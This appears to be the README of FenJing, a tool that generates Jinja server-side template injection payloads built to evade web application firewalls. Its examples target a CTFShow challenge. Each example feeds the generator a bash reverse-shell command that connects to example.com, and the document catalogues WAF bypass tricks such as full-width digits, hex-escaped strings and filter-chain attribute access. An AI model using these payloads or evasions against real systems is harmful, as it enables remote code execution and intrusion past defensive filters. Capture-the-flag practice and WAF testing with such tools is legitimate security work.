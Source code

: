 ![](./fenjing.webp)

> Bypassing the WAF without knowing WAF

![中文](./README_zh.md)

## Introduction

FenJing is a payload generator targeting on Jinja SSTI. It focus on automatically detecting and bypassing WAF.


## Usage

Example：[CTFShow]web372

First, you should write a function that receive a string. If the string contains characters that would be WAF, return False, otherwise return True.

```python
@functools.lru_cache
def waf(s: str):

    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("
```

Then pass this function and the shell command you need to this module. The module would generate payload for you.

```python
payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3003 0>&1\"")
```

Full example

```python
from ssti import shell_cmd

import functools
import time
import requests
import logging

logging.basicConfig(level = logging.WARNING)

# ctf.show web372
url = "http://ddde51f2-ff61-4f88-a9a7-3af3654a76b8.challenge.ctf.show/"

@functools.lru_cache
def waf(s: str):
    time.sleep(0.1)
    r = requests.get(url, params = {
        "name": s
    })

    return r.text != ":("

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

r = requests.get(url, params = {
    "name": payload
})

print(r.text)
```

## Feature

It supports bypassing:

- `'` and `"`
- Most of the keywords
- any number
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### Bypassing for natural numbers:

It supports bypassing `+` or `-` when bypassing 0-9 at the same time.

It supports two ways for bypassing number detection:

- Full-width numerals
- Calculate any natural number with `+`, `-` and some special variables.  

### Bypassing for `'%c'`:

Support bypassing `'`, `"`, `g` and `lipsum`.

### Bypassing for `_`：

Support `(lipsum|escape|batch(22)|list|first|last)`
- number 22 support the bypassing mentioned above.

### Bypassing for any string:

Supprot bypassing `'`, `"`, `+`, `_`, `~` and any keyword.

It supports these forms:

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
- `'%c'*3%(97,97,97)`

### Bypassing for any attributes:

- `['aaa']`
- `.aaa`
- `|attr('aaa')`

### Bypassing for any item:

- `['aaa']`
- `.aaa`
- `.__getitem__('aaa')`


### Example for testing:

```python
from ssti import shell_cmd
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload = shell_cmd(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)
```
